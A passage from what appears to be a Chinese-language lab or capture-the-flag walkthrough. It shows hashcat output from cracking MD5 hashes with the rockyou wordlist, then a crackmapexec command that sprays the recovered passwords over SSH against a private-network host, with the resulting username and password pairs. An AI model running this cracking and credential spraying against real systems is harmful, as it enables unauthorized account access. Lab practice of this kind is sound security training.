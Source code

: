 ```shell
                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: Password-crash
Time.Started.....: Tue May 23 15:09:02 2023 (4 secs)
Time.Estimated...: Tue May 23 15:09:06 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4465.0 kH/s (0.12ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 9/13 (69.23%) Digests (total), 9/13 (69.23%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 62%

Started: Tue May 23 15:09:02 2023
Stopped: Tue May 23 15:09:07 2023
```

-   将处理之后的用户名以及密码保存到文本中进行碰撞



### 使用`crackmapexec`进行密码碰撞

>   crackmapexec ssh 192.168.2.137 -p password -u usernmae --continue-on-success  | grep "+"
>
>   参数说明：
>
>   ​	ssh 指定需要的碰撞类型
>
>   ​	-p 需要碰撞的密码文件
>
>   ​	-u 需要碰撞的用户名文件
>
>   ​	--continue-on-success

```shell
└─$ crackmapexec ssh 192.168.2.137 -p password -u usernmae --continue-on-success  | grep "+"
SSH         192.168.2.137   22     192.168.2.137    [+] brian:my2cents 
SSH         192.168.2.137   22     192.168.2.137    [+] alice:turtles77 
SSH         192.168.2.137   22     192.168.2.137    [+] leon:qwer1234 
SSH         192.168.2.137   22     192.168.2.137    [+] julia:madrid 
SSH         192.168.2.137   22     192.168.2.137    [+] michael:somepassword 
SSH         192.168.2.137   22     192.168.2.137    [+] charles:chuck33 
```

-   进行登陆尝试，需要指定的主机密钥类型
